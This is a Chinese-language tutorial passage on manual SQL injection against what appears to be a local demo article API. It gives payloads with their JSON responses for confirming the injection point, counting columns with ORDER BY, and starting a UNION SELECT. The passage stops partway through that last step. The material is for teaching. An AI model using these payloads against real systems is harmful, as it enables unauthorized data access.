 #### 第一步：确定注入点
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1# 
请求这个地址，发现浏览器自动过滤了#号，没有对其自动编码，需要手动编码； 
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1%23 

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "iryTrPab4l8",
    "Title": "文章标题",
    "Content": "内容",
    "HashIDQuery": "iryTrPab4l8' and 1=1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1#'",
    "Err": ""
  }
}
```
代码sql字符串中hash_id='%s'有两个单引号，参数中的单引号是为了和第一个单引号配对，#号是为了注释第二号单引号，
从而形成一条语法正常的sql语句。此时接口返回正常，确定此处存在注入点。

#### 第二步：确定select语句中的字段数量
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1 order by 10%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "",
    "Title": "",
    "Content": "",
    "HashIDQuery": "iryTrPab4l8' and 1=1 order by 10#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1 order by 10#'",
    "Err": "Error 1054 (42S22): Unknown column '10' in 'order clause'"
  }
}
```
order by number含义是按照select语句中的第几个字段排序，比如order by 1就是按照hash_id排序，order by 2就是按照title排序，
当超过select语句中字段数量时，sql就会报错，可以通过递减的方式，从10递减到3，接口返回正常，确定sql的字段数量为3；
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=1 order by 3%23
        
{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "iryTrPab4l8",
    "Title": "文章标题",
    "Content": "内容",
    "HashIDQuery": "iryTrPab4l8' and 1=1 order by 3#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=1 order by 3#'",
    "Err": ""
  }
}
```
#### 第三步：暴占位符
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,3%23
        
{
```